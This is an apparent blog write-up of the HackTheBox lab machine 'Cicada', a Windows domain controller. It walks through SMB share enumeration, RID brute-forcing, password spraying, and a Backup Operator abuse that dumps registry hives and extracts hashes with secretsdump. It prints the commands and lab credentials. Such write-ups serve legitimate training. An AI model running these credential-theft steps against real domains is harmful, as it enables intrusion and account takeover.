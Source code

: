```yaml
---
categories:
    - htb
layout: post
title: Cicada Writeup - HackTheBox
tags:
    - writeup
    - hackthebox
    - easy
---
```


Cicada is an easy Windows HackTheBox machine, It bascially involves finding credentials using basic enumeration and getting access to the Backup Operator credentails to compramise the machine.

## Enumeration

Lets begin with nmap
```shell
PORT     STATE SERVICE       REASON          VERSION                      
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus              
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-11 22:13:15Z)                                       
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC        
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn                                                                       
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57184/tcp): CLEAN (Timeout)
|   Check 2 (port 2906/tcp): CLEAN (Timeout)
|   Check 3 (port 19380/udp): CLEAN (Timeout)
|   Check 4 (port 26575/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-11T22:13:58
|_  start_date: N/A
|_clock-skew: 6h59m59s
```

The scan result mostly shows that it is common windows DC ports open. Since we don't have any credentails we can try to check for anonymous access to smb share. We can do that using 
```shell
nxc smb 10.129.231.149 -u 'dsad' -p '' --shares
```
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-nxc.png)

We can see that we have access to the HR share. Lets use impacket-smbclient to enumerate the share

```shell
impacket-smbclient xcr@10.129.231.149 -no-pass
```
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-smb.png)

The `Notice from HR.txt` contains default credentials
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-note.png)

Since we have a default password , lets try to gather users list, We can do this either by using impackets `lookupsid` or `nxc --rid-brute` flag
```shell
nxc smb 10.129.231.149 -u 'dsad' -p '' --rid-brute
```
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-rid.png)
Now with some linux magic we can filter to just have the users list
```shell
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
We discover that `michael.wrightson` has the default password set
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-bf.png)
```shell
cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

## Foothold
Since we have a valid user, lets enumerate the domain using bloodhound. I was facing some issues so I ended up getting a valid TGT to perform bloodhound
```
bloodhound-python -ns 10.129.231.149 -d cicada.htb -u 'michael.wrightson' --disable-autogc --zip -c all -k -no-pass
```
Checking bloodhound we can see that user `david.orelious` has his password in the description field
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-bh.png)
Checking smb shares we can see the user can read the DEV share. Checking the share shows that there is powershell backup script which contains credentails
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-smb2.png)
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-note2.png)
We can use the discovered credentails for `emily.oscars` to log into the machine and get the user flag.

## Privilege Escaltion
We can check the privileges of `emily.oscars` and see that the user belongs to the `Backup Operator` group. We can now try to exfiltrate credentails abusing this privilege
There are multiple ways to do it. I am going to be doing it with `nxc`
```shell
nxc smb 10.129.231.149 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -M backup_operator
```
This is make a copy of the `SAM`, `SYSTEM` and `SECURITY` hives and download it locally. When doing it with nxc there was some issue downloading `SECURITY` so I copied it manually and performed the abuse
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-bo.png)
Once downloaded we can use `impacket-secretsdump` to extract credentails
```shell
impacket-secretsdump -sam sam -system system -security security local
```
![nxc share output](/assets/posts/cicada/2025-07-11-cicada-sd.png)
We can now login using the Administrator credentials to get the root flag.

